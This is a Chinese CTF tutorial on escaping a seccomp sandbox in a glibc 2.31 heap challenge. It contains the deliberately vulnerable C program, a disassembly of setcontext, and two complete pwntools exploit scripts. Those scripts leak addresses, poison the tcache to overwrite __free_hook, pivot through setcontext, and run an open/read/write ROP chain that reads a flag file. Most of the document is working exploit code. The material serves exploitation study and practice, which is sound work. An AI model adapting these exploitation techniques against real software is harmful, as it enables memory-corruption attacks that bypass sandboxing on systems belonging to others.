

## glibc2.31下堆题绕过沙箱


还是用相同的题目

gcc -o test test.c

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
int Nodes_len[0x10];
char *Nodes[0x10];
int count=0;
int get_atoi()
{
	char buf[8];
	read(0,buf,8);	
	return atoi(buf);
}
void sandbox(){
	struct sock_filter filter[] = {
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS,4),
	BPF_JUMP(BPF_JMP+BPF_JEQ,0xc000003e,0,2),
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS,0),
	BPF_JUMP(BPF_JMP+BPF_JEQ,59,0,1),
	BPF_STMT(BPF_RET+BPF_K,SECCOMP_RET_KILL),
	BPF_STMT(BPF_RET+BPF_K,SECCOMP_RET_ALLOW),
	};
	struct sock_fprog prog = {
	.len = (unsigned short)(sizeof(filter)/sizeof(filter[0])),
	.filter = filter,
	};
	prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
	prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&prog);
}
void add(){
	int len;
	printf("len:");
	scanf("%d",&len);
	if(len<0||len>0xfff) exit(0);
	if(count>0x10){
		puts("too many");
		exit(0);
	}
	Nodes[count] = malloc(len);
	Nodes_len[count] = len;
	count++;
	puts("done!");
}

void del(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	free(Nodes[idx]);
	puts("done!");	
}

void edit(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	read(0,Nodes[idx],Nodes_len[idx]);
	puts("done!");
}
void show(){
	int idx;
	printf("idx:");
	scanf("%d",&idx);
	if(idx>count){
		puts("error!");
		exit(0);
	}
	write(1,Nodes[idx],Nodes_len[idx]);
}
void gift(){
	printf("heap_base:%p\n",Nodes[0]);
}
void menu(){
	puts("1.add");
	puts("2.delete");
	puts("3.edit");
	puts("4.show");
	puts("5.gift");
	puts("6.exit");
	printf("choice:");
}
void init() {
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	setvbuf(stderr, 0LL, 2, 0LL);
}

int main(){
	init();
	sandbox();
	while(1){
		int choice;
		menu();
		choice = get_atoi();
		switch(choice){
			case 1:
				add();
				break;
			case 2:
				del();
				break;
			case 3:
				edit();
				break;
			case 4:
				show();
				break;
			case 5:
				gift();
				break;
			default:
				puts("invalued input!");
				exit(0); 
		}
	}
	return 0;
} 
```


#### 方法一

2.31下和2.29下情况差不多，不过用的gadgets有所改变

gadgets变成下面这条



```asm
mov rdx, qword ptr [rdi + 8];
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20];
```

setcontext又发生了细微的变化，但对利用而言没啥变化，就是偏移变了，变成了`setcontext+61`。

```assembly
   0x7ffff7e1a0a0 <setcontext>:	endbr64 
   0x7ffff7e1a0a4 <setcontext+4>:	push   rdi
   0x7ffff7e1a0a5 <setcontext+5>:	lea    rsi,[rdi+0x128]
   0x7ffff7e1a0ac <setcontext+12>:	xor    edx,edx
   0x7ffff7e1a0ae <setcontext+14>:	mov    edi,0x2
   0x7ffff7e1a0b3 <setcontext+19>:	mov    r10d,0x8
   0x7ffff7e1a0b9 <setcontext+25>:	mov    eax,0xe
   0x7ffff7e1a0be <setcontext+30>:	syscall 
   0x7ffff7e1a0c0 <setcontext+32>:	pop    rdx
   0x7ffff7e1a0c1 <setcontext+33>:	cmp    rax,0xfffffffffffff001
   0x7ffff7e1a0c7 <setcontext+39>:	jae    0x7ffff7e1a1ef <setcontext+335>
   0x7ffff7e1a0cd <setcontext+45>:	mov    rcx,QWORD PTR [rdx+0xe0]
   0x7ffff7e1a0d4 <setcontext+52>:	fldenv [rcx]
   0x7ffff7e1a0d6 <setcontext+54>:	ldmxcsr DWORD PTR [rdx+0x1c0]
   0x7ffff7e1a0dd <setcontext+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7ffff7e1a0e4 <setcontext+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7ffff7e1a0eb <setcontext+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x7ffff7e1a0ef <setcontext+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x7ffff7e1a0f3 <setcontext+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x7ffff7e1a0f7 <setcontext+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x7ffff7e1a0fb <setcontext+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x7ffff7e1a0ff <setcontext+95>:	test   DWORD PTR fs:0x48,0x2
   0x7ffff7e1a10b <setcontext+107>:	je     0x7ffff7e1a1c6 <setcontext+294>
   0x7ffff7e1a111 <setcontext+113>:	mov    rsi,QWORD PTR [rdx+0x3a8]
   0x7ffff7e1a118 <setcontext+120>:	mov    rdi,rsi
   0x7ffff7e1a11b <setcontext+123>:	mov    rcx,QWORD PTR [rdx+0x3b0]
   0x7ffff7e1a122 <setcontext+130>:	cmp    rcx,QWORD PTR fs:0x78
   0x7ffff7e1a12b <setcontext+139>:	je     0x7ffff7e1a165 <setcontext+197>
   0x7ffff7e1a12d <setcontext+141>:	mov    rax,QWORD PTR [rsi-0x8]
   0x7ffff7e1a131 <setcontext+145>:	and    rax,0xfffffffffffffff8
   0x7ffff7e1a135 <setcontext+149>:	cmp    rax,rsi
   0x7ffff7e1a138 <setcontext+152>:	je     0x7ffff7e1a140 <setcontext+160>
   0x7ffff7e1a13a <setcontext+154>:	sub    rsi,0x8
   0x7ffff7e1a13e <setcontext+158>:	jmp    0x7ffff7e1a12d <setcontext+141>
   0x7ffff7e1a140 <setcontext+160>:	mov    rax,0x1
   0x7ffff7e1a147 <setcontext+167>:	incsspq rax
   0x7ffff7e1a14c <setcontext+172>:	rstorssp QWORD PTR [rsi-0x8]
   0x7ffff7e1a151 <setcontext+177>:	saveprevssp 
   0x7ffff7e1a155 <setcontext+181>:	mov    rax,QWORD PTR [rdx+0x3b0]
   0x7ffff7e1a15c <setcontext+188>:	mov    QWORD PTR fs:0x78,rax
   0x7ffff7e1a165 <setcontext+197>:	rdsspq rcx
   0x7ffff7e1a16a <setcontext+202>:	sub    rcx,rdi
   0x7ffff7e1a16d <setcontext+205>:	je     0x7ffff7e1a18c <setcontext+236>
   0x7ffff7e1a16f <setcontext+207>:	neg    rcx
   0x7ffff7e1a172 <setcontext+210>:	shr    rcx,0x3
   0x7ffff7e1a176 <setcontext+214>:	mov    esi,0xff
   0x7ffff7e1a17b <setcontext+219>:	cmp    rcx,rsi
   0x7ffff7e1a17e <setcontext+222>:	cmovb  rsi,rcx
   0x7ffff7e1a182 <setcontext+226>:	incsspq rsi
   0x7ffff7e1a187 <setcontext+231>:	sub    rcx,rsi
   0x7ffff7e1a18a <setcontext+234>:	ja     0x7ffff7e1a17b <setcontext+219>
   0x7ffff7e1a18c <setcontext+236>:	mov    rsi,QWORD PTR [rdx+0x70]
   0x7ffff7e1a190 <setcontext+240>:	mov    rdi,QWORD PTR [rdx+0x68]
   0x7ffff7e1a194 <setcontext+244>:	mov    rcx,QWORD PTR [rdx+0x98]
   0x7ffff7e1a19b <setcontext+251>:	mov    r8,QWORD PTR [rdx+0x28]
   0x7ffff7e1a19f <setcontext+255>:	mov    r9,QWORD PTR [rdx+0x30]
   0x7ffff7e1a1a3 <setcontext+259>:	mov    r10,QWORD PTR [rdx+0xa8]
   0x7ffff7e1a1aa <setcontext+266>:	mov    rdx,QWORD PTR [rdx+0x88]
   0x7ffff7e1a1b1 <setcontext+273>:	rdsspq rax
   0x7ffff7e1a1b6 <setcontext+278>:	cmp    r10,QWORD PTR [rax]
   0x7ffff7e1a1b9 <setcontext+281>:	mov    eax,0x0
   0x7ffff7e1a1be <setcontext+286>:	jne    0x7ffff7e1a1c3 <setcontext+291>
   0x7ffff7e1a1c0 <setcontext+288>:	push   r10
   0x7ffff7e1a1c2 <setcontext+290>:	ret    
   0x7ffff7e1a1c3 <setcontext+291>:	jmp    r10
   0x7ffff7e1a1c6 <setcontext+294>:	mov    rcx,QWORD PTR [rdx+0xa8]
   0x7ffff7e1a1cd <setcontext+301>:	push   rcx
   0x7ffff7e1a1ce <setcontext+302>:	mov    rsi,QWORD PTR [rdx+0x70]
   0x7ffff7e1a1d2 <setcontext+306>:	mov    rdi,QWORD PTR [rdx+0x68]
   0x7ffff7e1a1d6 <setcontext+310>:	mov    rcx,QWORD PTR [rdx+0x98]
   0x7ffff7e1a1dd <setcontext+317>:	mov    r8,QWORD PTR [rdx+0x28]
   0x7ffff7e1a1e1 <setcontext+321>:	mov    r9,QWORD PTR [rdx+0x30]
   0x7ffff7e1a1e5 <setcontext+325>:	mov    rdx,QWORD PTR [rdx+0x88]
   0x7ffff7e1a1ec <setcontext+332>:	xor    eax,eax
   0x7ffff7e1a1ee <setcontext+334>:	ret    
   0x7ffff7e1a1ef <setcontext+335>:	mov    rcx,QWORD PTR [rip+0x192c7a]        # 0x7ffff7face70
   0x7ffff7e1a1f6 <setcontext+342>:	neg    eax
   0x7ffff7e1a1f8 <setcontext+344>:	mov    DWORD PTR fs:[rcx],eax
   0x7ffff7e1a1fb <setcontext+347>:	or     rax,0xffffffffffffffff
   0x7ffff7e1a1ff <setcontext+351>:	ret
```


exp1

rop链在堆地址上


```python
from pwn import*
context.log_level = 'debug'
p = process('./a.out')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./a.out')
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
def add(length):
	p.sendlineafter(':','1')
	p.sendlineafter('len:',str(length))
def delete(idx):
	p.sendlineafter(':','2')
	p.sendlineafter('idx:',str(idx))
def edit(idx,ct):
	p.sendlineafter(':','3')
	p.sendlineafter('idx:',str(idx))
	p.send(ct)
def show(idx):
	p.sendlineafter(':','4')
	p.sendlineafter('idx:',str(idx))
add(0x500) #0
add(0x10) #1
delete(0)
show(0)

leak = u64(p.recv(6)+'\x00'*2)
p.sendlineafter(':','5')
p.recvuntil('heap_base:')
heapbase = int(p.recvuntil('\n')[:-1],16)-0x2a0
libcbase = leak - (0x7f6ce9833be0-0x7f6ce9648000)
free_hook = libcbase + libc.sym['__free_hook']
pr('libcbase',libcbase)
pr('heapbase',heapbase)
gadgets = libcbase + 0x154930#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_door = libcbase + libc.sym['setcontext']+61

add(0x10)#2
delete(2)
delete(1)
edit(1,p64(free_hook))

add(0x10)#3
add(0x10)#4
edit(4,p64(gadgets))

#===============================================
prdi_ret = libcbase+0x0000000000026b72
prsi_ret = libcbase+0x0000000000027529
prdx_r12_ret = libcbase+0x000000000011c371

def ropchain(function,arg1,arg2,arg3):
	ret  = p64(prdi_ret)+p64(arg1)
	ret += p64(prsi_ret)+p64(arg2)
	ret += p64(prdx_r12_ret)+p64(arg3)+p64(0)
	ret += p64(function)
	return ret
read_addr = libcbase + libc.sym['read']
open_addr = libcbase + libc.sym['open']
write_addr = libcbase + libc.sym['write']

rop_addr = heapbase + 0x2c0+0x100
flag_string_addr = rop_addr + 0x200
payload = ropchain(open_addr,flag_string_addr,0,0)
payload += ropchain(read_addr,3,flag_string_addr,0x30)
payload += ropchain(write_addr,1,flag_string_addr,0x30)
payload = payload.ljust(0x200,'\x00')+'./flag\x00'

#=========================setcontext===========================
frame = SigreturnFrame()

frame.rsi=rop_addr
frame.rsp=rop_addr 
frame.rip=libcbase + 0x25679 #ret

add(0x400) #5
ct = p64(0)+p64(heapbase+0x2c0)
ct = ct.ljust(0x20,'\x00') + p64(setcontext_door)
ct += str(frame).ljust(0x100,'\x00')[0x28:]
ct += payload
edit(5,ct)
#gdb.attach(p,'b *'+str(gadgets))
pause()
delete(5)

p.interactive()

```


exp2

rop链放在free_hook附近

```python
from pwn import*
context.log_level = 'debug'
p = process('./a.out')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./a.out')
context.arch = 'amd64'
def pr(a,addr):
	log.success(a+'====>'+hex(addr))
def add(length):
	p.sendlineafter(':','1')
	p.sendlineafter('len:',str(length))
def delete(idx):
	p.sendlineafter(':','2')
	p.sendlineafter('idx:',str(idx))
def edit(idx,ct):
	p.sendlineafter(':','3')
	p.sendlineafter('idx:',str(idx))
	p.send(ct)
def show(idx):
	p.sendlineafter(':','4')
	p.sendlineafter('idx:',str(idx))
add(0x500) #0
add(0x10) #1
delete(0)
show(0)

leak = u64(p.recv(6)+'\x00'*2)
p.sendlineafter(':','5')
p.recvuntil('heap_base:')
heapbase = int(p.recvuntil('\n')[:-1],16)-0x2a0
libcbase = leak - (0x7f6ce9833be0-0x7f6ce9648000)
free_hook = libcbase + libc.sym['__free_hook']
pr('libcbase',libcbase)
pr('heapbase',heapbase)
gadgets = libcbase + 0x154930#mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_door = libcbase + libc.sym['setcontext']+61

add(0x10)#2
delete(2)
delete(1)
edit(1,p64(free_hook))

add(0x10)#3
add(0x10)#4
edit(4,p64(gadgets))

#===============================================
prdi_ret = libcbase+0x0000000000026b72
prsi_ret = libcbase+0x0000000000027529
prdx_r12_ret = libcbase+0x000000000011c371

def ropchain(function,arg1,arg2,arg3):
	ret  = p64(prdi_ret)+p64(arg1)
	ret += p64(prsi_ret)+p64(arg2)
	ret += p64(prdx_r12_ret)+p64(arg3)+p64(0)
	ret += p64(function)
	return ret
read_addr = libcbase + libc.sym['read']
open_addr = libcbase + libc.sym['open']
write_addr = libcbase + libc.sym['write']

rop_addr = free_hook & 0xffffffffffffffff
flag_string_addr = rop_addr + 0x200
payload = ropchain(open_addr,flag_string_addr,0,0)
payload += ropchain(read_addr,3,flag_string_addr,0x30)
payload += ropchain(write_addr,1,flag_string_addr,0x30)
payload = payload.ljust(0x200,'\x00')+'./flag\x00'

#=========================setcontext===========================
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi=rop_addr
frame.rdx = 0x300
frame.rsp=rop_addr 
frame.rip=libcbase + 0x66229 #syscall;ret;

add(0x400) #5
ct = p64(0)+p64(heapbase+0x2c0)
ct = ct.ljust(0x20,'\x00') + p64(setcontext_door)
ct += str(frame).ljust(0x100,'\x00')[0x28:]

edit(5,ct)
#gdb.attach(p,'b *'+str(gadgets))
delete(5)
pause()
p.send(payload)

p.interactive()

```

